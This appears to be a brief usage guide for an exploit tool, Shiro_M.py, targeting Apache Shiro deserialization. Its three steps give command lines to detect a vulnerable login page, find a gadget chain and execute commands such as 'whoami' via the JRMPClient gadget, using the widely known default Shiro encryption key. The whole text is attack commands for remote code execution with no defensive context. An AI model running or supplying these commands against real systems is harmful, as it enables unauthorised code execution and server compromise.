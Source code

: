 # 1、检测

​    python Shiro_M.py -u http://127.0.0.1:8080/login

# 2、Found gadget

​    python Shiro_M.py -u http://127.0.0.1:8080/login -t 2 -c "whoami" -k "kPH+bIxk5D2deZiIxcaaaA=="

# 3、Exp

​    python Shiro_M.py -u http://127.0.0.1:8080/login -t 3 -g "JRMPClient" -c "whoami" -k "kPH+bIxk5D2deZiIxcaaaA=="

